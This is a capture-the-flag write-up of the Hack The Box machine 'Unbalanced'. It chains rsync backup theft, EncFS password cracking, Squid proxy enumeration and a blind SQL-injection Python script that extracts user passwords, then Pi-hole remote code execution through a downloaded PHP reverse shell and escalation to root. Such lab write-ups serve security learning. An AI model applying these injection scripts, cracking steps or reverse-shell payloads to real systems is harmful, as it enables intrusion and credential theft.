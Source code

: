 ```yaml
---
image: /assets/avatars/unbalanced.png
title: Unbalanced Writeup
author: Valerio Casalino
style: fill
color: dark
tags: [Writeups, Hackthebox]
description: <img src="/assets/avatars/unbalanced.png"> Writeup for Unbalanced (Hackthebox)
---
```


# Unbalanced

As always, `nmap` it:

```bash
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.200 | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
mkdir nmap && sudo nmap -sC -sV -oN nma/assets/unbalanced -p $ports 10.10.10.200
...
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a2:76:5c:b0:88:6f:9e:62:e8:83:51:e7:cf:bf:2d:f2 (RSA)
|   256 d0:65:fb:f6:3e:11:b1:d6:e6:f7:5e:c0:15:0c:0a:77 (ECDSA)
|_  256 5e:2b:93:59:1d:49:28:8d:43:2c:c1:f7:e3:37:0f:83 (ED25519)
873/tcp  open  rsync      (protocol version 31)
3128/tcp open  http-proxy Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
```

If we check port `873`, we can see the `rsync` daemon running, checking its content, we can find:

```bash
rsync -av rsync://10.10.10.200
conf_backups    EncFS-encrypted configuration backups
```

So, let's get that stuff in our working directory:

```bash
mkdir rsync-encrypted && rsync -uvrP rsync://10.10.10.200/conf_backups rsync-encrypted
```

This doesn't require authentication, but we have to crack the password of the [EncFS](https://wiki.archlinux.org/index.php/EncFS) file system using John the Ripper and its support scripts:

```bash
encfs2john rsync-encrypted > encfs-john.hash
john --wordlist=/usr/share/wordlists/passwords/rockyou.txt encfs-john.hash 2>/dev/null
```

![image-20201122174007082](/assets/unbalanced/image-20201122174007082.png)

Now we know the encryption password: `bubblegum`, so we can mount that file system using that password:

```bash
mkdir rsync-decrypted
encfs "$PWD/rsync-encrypted" "$PWD/rsync-decrypted"
# Insert password and we're ON
```

Reading `squid.conf` we can find useful information on port `3128`... [Squid](http://www.squid-cache.org/) is used as an HTTP proxy server requiring authentication to be used. This line gives us a new host:

![image-20201122174703962](/assets/unbalanced/image-20201122174703962.png)

Adding that virtual host to our hosts file, visiting that page we get a redirection by `index.php`:

![image-20201122211206917](/assets/unbalanced/image-20201122211206917.png)

Then, this page is in front of us:

![image-20201122211239642](/assets/unbalanced/image-20201122211239642.png)

Now, this other line gives us credentials to interact with `squid` remotely:

![image-20201122211335206](/assets/unbalanced/image-20201122211335206.png)

Now, what we need to do is fuzzing around with `squidclient`:

```bash
# This will show a list of stuff we can see (disabled or protected) with this client
squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:menu
# The important thing is here
squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:fqdncache
...
Address                                       Flg TTL Cnt Hostnames
127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
::1                                             H -001   3 localhost ip6-localhost ip6-loopback
172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
127.0.0.1                                       H -001   1 localhost
172.17.0.1                                      H -001   1 intranet.unbalanced.htb
ff02::1                                         H -001   1 ip6-allnodes
ff02::2                                         H -001   1 ip6-allrouters
...
```

Seems like `172.17.0.1` is a load balancer, so let's watch the hosts in which we are never redirected, after a while we get the right one (`172.31.179.1`). It is apparently the same, except for the fact that this is vulnerable to SQL injections:

![image-20201122211948673](/assets/unbalanced/image-20201122211948673.png)

Now we should exploit this SQLi to get some passwords! After some trial and errors, we can see that the best injection comes from querying the password substring to get a list of users with that password. This is done with this parameter in the password field:

```sql
' or substring(Password,{i},1)='{letter}
```

Putting it in a python script for all users:

```python
# Built in
import string
import re
import sys

# External
import requests

# Users retrieved with basic SQLi from http://172.31.179.1/intranet.php
users = [ 'rita', 'jim', 'bryan', 'sarah' ]
# List of credentials to print in the end!
final = []

print("Welcome!! it'll be done in moments", end ="")

for user in users:
    print(f"\n[*] Starting with {user}")
    stop = False
    password = ""
    i = 1
    while not stop:
        stop = True
        for letter in string.printable:
            # Endpoint
            url = "http://172.31.179.1/intranet.php"
            # POST data found with BURP
            data = {
                    "Username": "lolz", 
                    "Password": f"' or substring(Password,{i},1)='{letter}"
                    }
            # Proxy config for response module
            proxy = {"http": "http://10.10.10.200:3128"}
            # Initializing actual request
            res = requests.post(url, data=data, proxies=proxy)
            # If our user is found, then break the loop and look for another
            # letter incrementing the counter
            if re.search(user, res.text):
                # Look for the next letter
                stop = False
                i += 1
                # Update password
                password += letter
                # Rewrite line
                sys.stdout.write('\r')
                sys.stdout.flush()
                # Print line
                print(f"[+] {user}'s password: {password}", end="")
                break

```

 And the results are here!

![image-20201122223842975](/assets/unbalanced/image-20201122223842975.png)

Let's try to `ssh` in, and the only user who can is `bryan`. In `bryan`'s directory, we find the `TODO` file, which gives us info about what the user is working on. 

```
############
# Intranet #
############
* Install new intranet-host3 docker [DONE]
* Rewrite the intranet-host3 code to fix Xpath vulnerability [DONE]
* Test intranet-host3 [DONE]
* Add intranet-host3 to load balancer [DONE]
* Take down intranet-host1 and intranet-host2 from load balancer (set as quiescent, weight zero) [DONE]
* Fix intranet-host2 [DONE]
* Re-add intranet-host2 to load balancer (set default weight) [DONE]
- Fix intranet-host1 [TODO]
- Re-add intranet-host1 to load balancer (set default weight) [TODO]

###########
# Pi-hole #
###########
* Install Pi-hole docker (only listening on 127.0.0.1) [DONE]
* Set temporary admin password [DONE]
* Create Pi-hole configuration script [IN PROGRESS]
- Run Pi-hole configuration script [TODO]
- Expose Pi-hole ports to the network [TODO]
```

We learn that there is PI-Hole running in a Docker container, so let's discover where is the web interface.

![image-20201122233022143](/assets/unbalanced/image-20201122233022143.png)

Now we can go to the Pi-Hole admin page located at `http://172.31.11.3/admin/index.php`:

![image-20201122233125990](/assets/unbalanced/image-20201122233125990.png)

If you make a research using that particular software version you can find [this article](https://frichetten.com/blog/cve-2020-11108-pihole-rce/), which will guide us to RCE and privilege escalation. The credentials for the admin page are `admin:admin` by the way. Follow the instructions on the article to get this result:

![image-20201122234006765](/assets/unbalanced/image-20201122234006765.png)

Then, after `.domains`, paste some malicious PHP, in my case, I used this:

```bash
curl -sL "wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php" | xclip -sel c
```

This command should copy the php script in the clipboard, but in case it doesn't work, just visit the url. After that, visit `/admin/scripts/pi-hole/php/lolz.php` to trigger the shell. And here we have `www-data`:

![image-20201122235326489](/assets/unbalanced/image-20201122235326489.png)

Still following the article, now we should overwrite `teleport.php` and restart `pihole` triggering another shell as `root` (as the standard script of PI-Hole) launches the process as `root`:

![image-20201122235933785](/assets/unbalanced/image-20201122235933785.png)

And... now it is strange, because in the configuration script written by `root`, we find a password that can be used to login with (`su root`), but I expected something more.

![image-20201123000132518](/assets/unbalanced/image-20201123000132518.png)

Anyway... profit!
